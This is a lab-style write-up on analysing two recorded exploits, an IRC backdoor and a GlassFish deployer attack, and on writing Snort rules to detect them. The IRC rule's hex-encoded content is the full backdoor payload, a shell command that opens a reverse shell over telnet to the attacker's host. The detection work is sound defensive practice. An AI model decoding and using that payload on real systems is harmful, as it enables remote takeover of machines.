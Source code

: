 # Network Exploit Analysis and Snort Rule Development

This project involves analyzing network traffic from two recorded exploits using Wireshark and developing Snort IDS rules to detect these attacks while minimizing false positives. 
The packet captures contain traffic from a network administrator who isolated known exploit attempts. 
The project includes two main analyses: an IRC Backdoor Exploit and a GlassFish Deployer Exploit.

IRC Backdoor Exploit Analysis:
File: irc_backdoor_exploit.pcapng

Attacker IP: 10.1.1.3
Victim IP: 10.2.2.4
Victim Port: 6697
Number of Attack Attempts: 2
Attack Payload Packets: [4, 11]
Proposed Snort Rule:
alert tcp 10.1.1.3 any -> 10.2.2.4 6697 (msg:"IRC Backdoor Exploit Attempt"; content:"41423b7368202d63202728736c65657020343631307c74656c6e65742031302e312e312e3320343434347c7768696c65203a203b20646f20736820262620627265616b3b20646f6e6520323e26317c74656c6e65742031302e312e312e332034343434203e2f6465762f6e756c6c20323e2631202629270a"; sid:1000001; rev:1;)

Feedback from Network Administrator: The command should look for a specific string pattern ("AB;") in the payload.

False Positives: The rule is specific to the payload content; however, it may still trigger false positives if the same payload pattern appears in legitimate traffic. 
Careful tuning and adding more context checks, such as specific sequences or additional packet attributes, may be required to reduce false positives.


GlassFish Deployer Exploit Analysis:
File: glassfish_deployer_exploit.pcapng

Attacker IP: 10.1.1.3
Victim IP: 10.2.2.3
Victim Port: 4848
Number of Attack Attempts: 3
Attack Payload Packets: [38, 85, 132]
Proposed Snort Rule:
alert tcp 10.1.1.3 any -> 10.2.2.3 4848 (msg:"GlassFish Deployer Exploit Attempt"; content:"3c7469746c653e4465706c6f7920456e7465727072697365204170706c69636174696f6e732f4d6f64756c65733c2f7469746c653e0a6f732e6e616d65203d204c696e75780a6f732e61726368203d20783836"; sid:1000002; rev:1;)

Feedback from Network Admin: The rule should specifically look for "post" or "upload" and ".war".

Attack Identification: The payload content indicates the deployment of a malicious application/module to the GlassFish server, likely exploiting a vulnerability in the deployment functionality. 
This attack pattern aligns with exploits targeting the GlassFish server's deployment service, specifically CVE-2011-0807.

False Positives: Similar to the IRC Backdoor rule, this Snort rule is based on specific payload content. 
Legitimate deployments or configurations with similar payload patterns may trigger false positives. Adding more context to the rule, such as checking for additional malicious indicators or behaviors, can help minimize false positives.

Learning and Improvement:

During this project, valuable feedback from a network administrator significantly enhanced my understanding and skills in creating Snort IDS rules. Here are some key takeaways:

Specific Pattern Matching: Initially, my Snort rules were too general, which could lead to a high rate of false positives. The feedback emphasized the importance of looking for specific string patterns within the payload, such as "AB;" in the IRC Backdoor Exploit. This helped me refine the rule to be more precise.
Understanding Context: The suggestion to include checks for specific actions like "post," "upload," and ".war" in the GlassFish Deployer Exploit was crucial. This feedback taught me that understanding the context of the attack and incorporating it into the rule can greatly improve detection accuracy while reducing false positives.
Continuous Learning: The feedback loop highlighted the importance of continuous learning and adaptation. It reminded me that in the field of cybersecurity, especially when working with tools like Snort, it's essential to keep refining rules based on observed behavior and expert insights.
This feedback has not only improved the quality of the Snort rules I developed but also deepened my understanding of network security practices.

